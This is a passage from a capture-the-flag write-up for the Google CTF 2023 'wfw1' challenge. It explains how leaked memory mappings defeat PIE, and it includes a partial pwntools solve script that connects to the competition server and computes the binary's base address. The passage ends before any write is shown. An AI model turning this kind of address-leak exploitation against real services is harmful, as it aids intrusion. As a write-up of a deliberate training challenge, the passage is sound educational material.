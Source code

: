 It's in the `.data` section of the binary, at an offset of `0x21e0`.

The program has PIE enabled, so each time it's run, the binary will have a new base address.

We need to find the base, then add the offset. Luckily, running the program against the remote server will print out the memory mappings, e.g.

```bash
I'll give you my mappings so that you'll have a shot.
55bae719b000-55bae719c000 r--p 00000000 00:11e 810424                    /home/user/chal
55bae719c000-55bae719d000 r-xp 00001000 00:11e 810424                    /home/user/chal
55bae719d000-55bae719e000 r--p 00002000 00:11e 810424                    /home/user/chal
55bae719e000-55bae719f000 r--p 00002000 00:11e 810424                    /home/user/chal
55bae719f000-55bae71a0000 rw-p 00003000 00:11e 810424                    /home/user/chal
55bae71a0000-55bae71a1000 rw-p 00000000 00:00 0
7fdfc7618000-7fdfc761b000 rw-p 00000000 00:00 0
7fdfc761b000-7fdfc7643000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7643000-7fdfc77d8000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc77d8000-7fdfc7830000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7830000-7fdfc7834000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7834000-7fdfc7836000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7836000-7fdfc7843000 rw-p 00000000 00:00 0
7fdfc7845000-7fdfc7847000 rw-p 00000000 00:00 0
7fdfc7847000-7fdfc7849000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc7849000-7fdfc7873000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc7873000-7fdfc787e000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc787f000-7fdfc7881000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc7881000-7fdfc7883000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffd5fb05000-7ffd5fb26000 rw-p 00000000 00:00 0                          [stack]
7ffd5fbe5000-7ffd5fbe9000 r--p 00000000 00:00 0                          [vvar]
7ffd5fbe9000-7ffd5fbeb000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

Therefore, we'll write a script to parse this response and calculate the correct address. We'll send that address when requested and the next time the loop executes, it will print the newly written data (🚩).

## Solve Script

```python
from pwn import *

io = remote('wfw1.2023.ctfcompetition.com',1337)
context.log_level='info'

# Offset to the string in .data section, which is printed in while loop
data_string_offset = 0x21e0

# Find the piebase
maps = io.recvuntil(b'/home/user/chal')
maps = maps.split(b'/home/user/chal')[0].split(b'\n')[-1]
piebase = int(maps[:12], 16)
pieend = int(maps[13:-48], 16)

info("Pie base: %#x", piebase)
```
